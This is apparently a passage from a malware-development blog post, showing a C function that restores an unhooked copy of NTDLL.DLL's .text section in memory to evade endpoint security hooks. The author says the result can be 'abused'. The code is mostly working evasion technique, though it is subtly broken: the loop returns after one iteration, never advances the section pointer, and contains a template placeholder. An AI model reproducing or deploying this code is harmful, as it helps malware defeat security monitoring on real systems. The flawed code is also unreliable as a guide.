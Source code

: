 ```c
BOOL Unhook(LPVOID module) {

    HANDLE hntdll = GetModuleHandleH(#-NTDLL_VALUE-#);

    PIMAGE_DOS_HEADER DOSheader = (PIMAGE_DOS_HEADER)module;
    PIMAGE_NT_HEADERS NTheader = (PIMAGE_NT_HEADERS)((char*)(module)+DOSheader->e_lfanew);
    if (!NTheader) {
        printf(" [-] Not a PE file\n");
        return FALSE;
    }

    PIMAGE_SECTION_HEADER sectionHdr = IMAGE_FIRST_SECTION(NTheader);
    DWORD oldprotect = 0;

    for (WORD i = 0; i < NTheader->FileHeader.NumberOfSections; i++) {

        char txt[] = { '.','t','e','x','t', 0 };

        if (!strcmp((char*)sectionHdr->Name, txt)) {
            BOOL status1 = VirtualProtect((LPVOID)((DWORD64)hntdll + sectionHdr->VirtualAddress), sectionHdr->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldprotect);
            if (!status1)
                return FALSE;

            memcpy((LPVOID)((DWORD64)hntdll + sectionHdr->VirtualAddress), (LPVOID)((DWORD64)module + sectionHdr->VirtualAddress), sectionHdr->Misc.VirtualSize);

            BOOL status2 = VirtualProtect((LPVOID)((DWORD64)hntdll + sectionHdr->VirtualAddress), sectionHdr->Misc.VirtualSize, oldprotect, &oldprotect);
            if (!status2)
                return FALSE;

        }
        return TRUE;
    }

}
```

The code is fairly easy to understand, so I won't go in detail. At this point, we've got a clean, unhooked version of `NTDLL.DLL` in memory that we can abuse :P !

![](assets/attachment/06191ff4529f72493a73ce576aa9e6ae.png)
